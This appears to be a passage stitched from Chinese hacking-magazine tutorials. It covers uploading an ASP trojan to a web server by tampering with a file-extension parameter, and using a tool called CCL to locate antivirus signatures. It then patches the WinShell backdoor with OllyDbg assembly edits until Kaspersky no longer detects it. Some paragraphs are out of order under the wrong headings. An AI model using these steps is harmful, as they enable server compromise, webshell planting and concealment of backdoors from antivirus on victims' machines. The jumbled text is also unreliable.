

图2



图3



图4



图5

现在最重要的就是修改 IE 地址栏里的那个 file 变量。把原来“*.txt”改成“*.asp”回车提交，这是最重要的一步。如图6所示。



图6

保存的文件名为“muma”，按要求填好，文本输入框里贴上 ASP 的木马代码。在这里我用了代码加密的“ASP 的站长助手”。如图7所示。



图7

然后按“保存为”。ASP 木马我是用了加密的 ASP 站长助手，如图8所示。



图8

这样就轻易地把 ASP 木马写到服务器里了，接着就是重组该木马的网址 URL。上面我注册的 ID 是 abcxd，所在该木马的 URL 应是 http://www.xxx.com/myfile/abcxd/muma.asp。如图9所示。  
注意：本教程只作研究学习用，朋友们可别做“傻事”噢！



图9

**刘流** 最近一段时间，网络上的很多攻击事件在大范围扩散，很多服务器被入侵、控制，各种极品后门、木马被安装在了这些倒霉的服务器上。很多热心的读者朋友们提出了疑问：“为什么黑客用的是和我们一样的工具，那些服务器上的强大杀毒软件就没有反应呢？”其实很简单。杀毒软件检测木马、后门等“黑器”时，最传统也是最有效的方法之一就是特征码比较……

- 适合读者：入侵爱好者
- 前置知识：黑软基本使用方法

## CCL 创造菜鸟打造免杀黑器神话


文/图：tankaiha  特别策划：黑防编辑部

现在的杀毒软件真是越来越牛，有时辛辛苦苦传到肉鸡上的后门还没有来得及运行就惨遭夭折……这个方法简单而有效，但是手动操作起来工作量太大。受作者冰狐浪子启发，我编写了一个小程序来自动实现特征码定位的功能，程序的中文名叫特征码定位器，英文名叫 CCL。

> 这种检测对已加壳的文件是无效的，因为带壳文件被替换的字节不是真程序的真身，而是加壳后的数据，所以第一步一定记得要脱壳。

铛铛铛！第一个目标是 WinShell，谁能简单介绍一下 WinShell 的功能？……WinShell 是一个非常小巧的 Telnet 后门程序，我“父亲”将它命名为 Backdoor.Win32.WinShell.50，用 VC 编成，如图1所示。



#### 打造免杀黑器之一：WinShell 特征码的自动定位

CCL 的原理是将原文件中部分字节替换为 0，然后生成新文件，再根据杀毒软件来检测这些文件的结果判断特征码的位置。使用 CCL 之前应该先设置一些参数，包括操作方式和生成文件路径……建议先把时间设大一些，比如 7~10 秒。

下面让我们利用自动替换功能来定位特征码。首先运行 CCL，将参数设为自动，等待时间 7 秒，最小定位精度设为 16 个字节……这是让用户选择对文件的哪一个部分进行替换。



用户输入区会显示相应数据。我们再点击“添加区段”，就成功地添加了一个待检测区段。当然，你也可以直接在“用户输入区”填入数据然后添加。双击已添加的区段，可以删除任务。

> 我们应该选择几个段进行检测呢？最简单的方法是一个都不选，程序会默认对整个文件进行检测。但有时候文件过大，或者你能确定特征码位于某个段中，为了避免替换时间过长，可以选择特定的范围进行检测。

“是否填充 0”这个选项的功能是指为了预先排除某些部分的干扰，我们在生成文件中将该部分用 0 填充。举个例子说明一下，文件有 A、B 两处特征码，为了更精确地定义 A，我们可以将 B 所在的段预先填 0，然后专门定位 A 所在的部分。关于填充 0 的时机，大家在使用过程中会慢慢总结出来的。



好了，回到 WinShell，这里我们选择“未填充 0”，也就是正常替换。单击确定，弹出了操作窗口（如图3所示）。窗口里显示了各种信息，包括文件名、生成路径、操作方式和需要的硬盘空间（手动的话）。这时，别忘了打开杀毒软件的监测，并且将该功能设为“遇到病毒时自动删除，不提醒用户”。然后打开“我的电脑”，进入生成文件的文件夹，让“我的电脑”窗口保持在前台。

> 为什么要这么做呢？因为有的杀毒软件只对前台窗口生成的文件进行即时监测，就算“我的电脑”窗口在前台也不一定对生成文件检测，这时可以不断地在文件图标上单击鼠标右键，来“刺激”一下杀毒软件。

回到 CCL，确认窗口显示的信息无误后，单击 GO，开始自动检测。这时，你会发现“我的电脑”文件夹里多了两个文件，名称形如“OUT_XXXXXXXX_YYYYYYYY”，其中 8 个 X 代表当前替换的起始偏移，8 个 Y 代表替换多少字节的 0。几秒钟内，会有一个文件被杀毒软件自动删除（再次强调一下，7 秒钟是你设定的等待时间，要确保含特征码的文件在这 7 秒内被删除掉），7 秒后会生成另外两个文件，这是 CCL 进行下一轮检测了。

这样等待啊等，期间不停地在生成文件图标上点鼠标右键（不知道除了卡巴斯基，其他的杀毒软件需不需要这样的“刺激”），过了 2 分多钟，结果出来了。

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 0000180C | 00000014 | 00001820 |
| 0002 | 00002130 | 00000050 | 00002180 |
| 0003 | 00002810 | 00000028 | 00002838 |
| 0004 | 000028D8 | 00000014 | 000028EC |

这个结果说明特征码可能在这 4 段中。定位成功了？呵呵，不要急，这才刚刚完成了一半，下面还要对文件进行修改，并最后确定特征码的位置与类型。

这 4 处结果不一定都需要改，如果只改动一处就成功，那是最好不过的。挑一处段大小最小的改吧，就第一项，从文件偏移 0x180C 开始的 0x14 个字节。我们用 OllyDbg 打开 WinShell.exe，来到 0x0040180C 处。这里省略了文件偏移和内存偏移的转换，代码如下：

```asm
0040180E  83C0 C1             add eax,-3F
00401811  83F8 39             cmp eax,39
00401814  0F87 5C010000       ja  win.00401976
0040181A  33C9                xor ecx,ecx
0040181C  8A88 0C1A4000       mov cl,byte ptr ds:[eax+401A0C]
00401822  FF248D E4194...     jmp dword ptr ds:[ecx*4+4019E4]
```

怎么改呢？这里讲两个通用的方法。特征码不可能只由某一句指令来确定，这样误报率会非常高，因此通常是多条指令的组合，我们只要将这个组合打乱即可。

最简单的方法当然是两条指令调个顺序，我们把它叫做指令顺序调换法，它使用的范围仅限于互不干扰的两条指令。可有很多情况，指令的执行顺序是不能调的，比如上面的 6 条指令，这时就用第二种方法——通用跳转法则。在文件中寻找一个空隙（由于对齐的原因，PE 文件中往往会有一些空隙处没有代码，全部为 0），将原来的指令改成一个跳转，跳到这个空隙去执行，空隙处填入我们原来的指令，执行完毕再跳转回去。

我们将 OllyDbg 的滚动条向下拉，在 0x00405D20 处有空隙，如图4所示。修改方法见下面（改之前别忘了先将原文件备份一下）：

```asm
0040180E  E9 0D450000         jmp WinShell.00405D20
00401813  90                  nop
00401814  0F87 5C010000       ja  WinShell.00401976
```

改工具将段属性加上可执行就可以了。

### 打造免杀黑器之一：手动与自动结合定位黑社会2.0的特征码



WinShell 是 VC 编译的文件，那么对于别的语言编写的程序，比如汇编、VB 等等，这种定位还有效吗？原则上来说，只要是编译成机器码的程序都可以定位。VB 是一种解释语言，它的可执行文件的代码不单纯是机器码（汇编指令），不知道 CCL 对它的定位效果如何。黑社会 2.0 是一个 VB 编写的集远程管理与攻击为一体的黑器，下面来测试一下它的特征码定位。

为什么要改 add 和 cmp 两句？因为 jmp 指令占了 5 个字节，而 add 和 cmp 均为 3 字节指令，只能两个一起改了。好，我们将 0x0040180E 处改为 jmp 00405D20，多出一个字节我们改为 nop。接着在空白处将原来的 add 和 cmp 两条指令补上，尾部再来个 jmp 回去的代码。在 jmp 回去时，可以回到 nop，也可以直接跳到 ja 处，这里选择跳回 nop。

```asm
00405D20    83C0 C1        add eax,-3F
00405D23    83F8 39        cmp eax,39
00405D26    E9 E8BAFFFF    jmp WinShell.
```

修改完毕，我们先保存一下，在 OllyDbg 窗口中单击右键选择“复制到可执行文件->全部保存”，然后保存到 WinShell.exe 中。OK，在菜单中选择“重新运行”，回到 0040180E 处，确定刚才的修改已经保存。关闭 OllyDbg，找到 WinShell.exe，用杀毒软件进行扫描，黑鹰、卡巴斯基已经认不出它来了！如图5所示，成功！

